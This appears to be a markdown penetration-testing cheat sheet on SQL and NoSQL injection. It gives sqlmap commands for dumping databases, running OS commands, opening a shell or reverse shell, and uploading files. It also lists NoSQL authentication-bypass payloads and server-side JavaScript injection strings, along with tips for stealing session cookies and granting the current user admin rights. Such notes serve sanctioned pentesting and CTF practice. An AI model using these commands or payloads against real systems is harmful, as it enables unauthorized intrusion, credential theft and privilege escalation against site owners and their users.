 # Basic reconaissance
## Tips
- If a database has a table of session one can try to steal cookies or other credentials from the table to authenticate as another user.     
- If one is in a database with write access and there are roles assigned to users, give the current user admin rights.

## SQL injection cheat sheets
- [https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- [https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


## Universal structures
```
information_schema              Metadata and all the databases and tables
information_schema.schemata     Databases
information_schema.tables       Tables
information_schema.columns      Columns
```

## Tools (SQL)
## sqlmap
### GET
Discover vulnerabilities in databases as well as dump info
```sh
sqlmap -u <URL> --batch
```

### POST
```sh
# With request file
# Add request into a log file (either from Burp or Chrome)
sqlmap -r <request_file> --batch

sqlmap -u <URL> --data "username=*&password=*"
```

### Web sockets
```sh
sqlmap -u ws://<ip><port> --data <data>
```

### Commands
**To get data from any query use the `--dump` option**
```sh
# Get all databases
sqlmap -u <URL> --dbs

# Set DBMS
sqlmap -u <URL> --dbms="dbms"

# Database
sqlmap -u <URL> -D <database>

# Tables
sqlmap -u <URL> --tables -D <database>

## Specify table
sqlmap -u <URL> -D <database> -T <table>

# Columns
sqlmap -u <URL> --columns -D <database> -T <table>
```

### Shell
To get upload web interface look for `file stager` otherwise look for `backdoor` in the output.
```sh
# Exec command
sqlmap -u <URL>  --os-cmd <command>

# Simple Shell
sqlmap -u <URL> --os-shell

# Dropping a reverse-shell / meterpreter
sqlmap -u <URL> --os-pwn
```

#### File upload
```sh
sqlmap -u <url> --data <data> --file-write <local_file> --file-dest <destination>
```

### References
- [https://0xdf.gitlab.io/2018/06/23/htb-falafel.html](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html)
- [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#shell)
- [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
- [https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)



## NoSQL
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

### Authentication Bypass
```
DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

### SSJI
```
';return 'a'=='a' && ''=='
";return 'a'=='a' && ''=='
0;return true
```

### NoSQLMap
Since the tool is using a menu based system, I'll just link the GitHub.     
[Documentation and Release](https://github.com/codingo/NoSQLMap)
​​